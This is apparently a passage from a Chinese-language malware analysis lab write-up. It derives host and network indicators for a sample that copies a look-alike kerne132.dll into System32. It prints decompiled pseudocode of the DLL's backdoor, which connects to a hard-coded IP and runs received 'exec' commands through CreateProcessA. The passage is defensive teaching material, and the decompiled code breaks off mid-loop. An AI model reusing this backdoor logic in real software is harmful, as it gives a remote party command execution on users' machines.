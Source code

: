 ```python
        print(f"{hex(ins.address)}:\t{ins.mnemonic}\t{ins.op_str}")
```

```assembly
CALLED POS 0 ==> 749
0x17e5: push    edx
0x17e6: call    esi
0x17e8: push    0
0x17ea: push    0x40304c
0x17ef: push    0x40307c
0x17f4: call    dword ptr [0x402024]
```

通过之前对链接库的分析，我们知道这个字符串作为 `0x402024` 这个函数（即 `CopyFileA`）的参数进行了调用。

### 结论

综上，我们还可以通过 `C:/Windows/System32` 这个文件夹下是否存在 `kerne132.dll` 这个文件来判断主机是否被感染。

## QUESTION 6

> What network-based indicators could be used to find this malware on infected machines?

根据前面的分析，可执行文件通过将动态链接库复制到 `C:/Windows/System32` 这个文件夹下，然后通过这个动态链接库进行进程、网络相关的动作，因此我们分析这个动态链接库。`.data` 段全局字符串：

![01.dll.PEexplorer.data](./01.dll.PEexplorer.data.png)

其中 `exec` 和一个 `127.26.152.13` 这个为 IP 地址格式的字符串非常可疑。为了分析该动态链接库的网络特征，我们查找调用第二个字符串的位置 `.text:100010A3`，使用 `IDA Pro` 分析出以下的伪代码：

```c
//...
v3 = socket(2, 1, 6);
if ( v3 != -1 )
{
    name.sa_family = 2;
    *(_DWORD *)&name.sa_data[2] = inet_addr(cp);
    *(_WORD *)name.sa_data = htons(0x50u);
    if ( connect(v3, &name, 16) != -1 )
    {
        while ( send(v3, ::buf, strlen(::buf), 0) != -1 && shutdown(v3, 1) != -1 )
        {
            if ( recv(v3, &buf, 4096, 0) > 0 )
            {
                if ( !strncmp(Str1, &buf, 5u) )
                {
                    Sleep(0x60000u);
                }
                else if ( !strncmp(aExec, &buf, 4u) )
                {
                    memset(&StartupInfo, 0, sizeof(StartupInfo));
                    StartupInfo.cb = 68;
                    CreateProcessA(0, &CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation);
                }
                else
                {
                    if ( buf == 113 )
                    {
                        CloseHandle(hObject);
                        break;
```